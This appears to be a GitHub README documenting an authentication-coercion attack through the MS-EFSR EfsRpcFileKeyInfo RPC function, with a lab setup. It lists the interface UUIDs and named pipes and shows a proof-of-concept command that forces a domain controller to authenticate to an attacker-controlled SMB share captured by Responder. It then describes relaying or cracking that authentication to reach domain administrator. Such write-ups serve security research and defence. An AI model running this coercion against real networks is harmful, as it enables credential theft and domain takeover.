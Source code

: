 # MS-EFSR - Remote call to EfsRpcFileKeyInfo (opnum 12)

## Summary

+ **Protocol**: [[MS-EFSR]: Encrypting File System Remote (EFSRPC) Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31)

+ **Function name**: [`EfsRpcFileKeyInfo`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/6813bfa8-1538-4c5f-982a-ad58caff3c1c)

+ **Function operation number**: `12`

+ **RPC Interfaces**:
  + Interface 1:
    + uuid=`c681d488-d850-11d0-8c52-00c04fd90f7e`
    + version=`1.0`
    + Accessible through:
      + SMB named pipe: `\PIPE\lsarpc`
      + SMB named pipe: `\PIPE\lsass`
      + SMB named pipe: `\PIPE\netlogon`
      + SMB named pipe: `\PIPE\samr`
  + Interface 2:
    + uuid=`df1941c5-fe89-4e79-bf10-463657acf44d`
    + version=`1.0`
    + Accessible through:
      + SMB named pipe: `\PIPE\efsrpc`

## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `\pipe\lsarpc` and bind to the desired [`MS-EFSR`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31) protocol (with uuid `c681d488-d850-11d0-8c52-00c04fd90f7e` and version `1.0`) in order to perform remote procedure calls to functions in the [`MS-EFSR`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `\PIPE\lsarpc`. This pipe is connected to the protocol [[MS-EFSR]: Encrypting File System Remote (EFSRPC) Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31) and allows to call RPC functions of this protocol. It will then call the remote [`EfsRpcFileKeyInfo`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/6813bfa8-1538-4c5f-982a-ad58caff3c1c) function on the Windows Server (192.168.2.1) with the following parameters:

```cpp
EfsRpcFileKeyInfo("\\\\192.168.2.51\\share\\file.txt\x00", 0)
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share\file.txt` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!

---

## Function technical detail

```cpp
DWORD EfsRpcFileKeyInfo(
    [in] handle_t binding_h,
    [in, string] wchar_t* FileName,
    [in] DWORD InfoClass,
    [out] EFS_RPC_BLOB** KeyInfo
);
```

+ **binding_h**: This is an RPC binding handle parameter, as specified in [C706] and [MS-RPCE] section 2.

+ **FileName**: An EFSRPC identifier, as specified in section 2.2.1.

+ **InfoClass**: One of the values in the following table. With the exception of UPDATE_KEY_USED (0x00000100), a server SHOULD support all of these values. A server MAY choose to support UPDATE_KEY_USED.<45>

| Name | Value | Description |
|---|---|---|
| `BASIC_KEY_INFO` | `0x00000001` |  Request information about the keys used to encrypt the object's contents. On success, the server will return the information in an `EFS_KEY_INFO` (2.2.14) structure in the `KeyInfo` parameter. | 
| `CHECK_COMPATIBILITY_INFO` | `0x00000002` | Requests the EfsVersion for the encrypted file. On success, the server will return the information in an `EFS_COMPATIBILITY_INFO` structure in the KeyInfo parameter. | 
| `UPDATE_KEY_USED` | `0x00000100` | Update the user certificates used to give a specific user access to an object. The server will populate the `KeyInfo` parameter with a zero-terminated, wide character Unicode string that contains a newline-separated list of names of objects successfully updated. | 
| `CHECK_DECRYPTION_STATUS` | `0x00000200` | Request a hint from the server as to whether the given object could be successfully decrypted without further user intervention or higher-level events. The server will return this information in an `EFS_DECRYPTION_STATUS_INFO` structure in the `KeyInfo` parameter. |
| `CHECK_ENCRYPTION_STATUS` | `0x00000400` | Request a hint from the server as to whether the given object could be successfully encrypted without further user intervention or higher-level events. The server will return this information in an `EFS_ENCRYPTION_STATUS_INFO` structure in the `KeyInfo` parameter. |

+ **KeyInfo**: Returned by the server, as previously specified.

## References

+ Documentation of protocol [MS-EFSR]: Encrypting File System Remote (EFSRPC) Protocol: [https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31)

+ Documentation of function `EfsRpcFileKeyInfo`: [https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/6813bfa8-1538-4c5f-982a-ad58caff3c1c](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/6813bfa8-1538-4c5f-982a-ad58caff3c1c)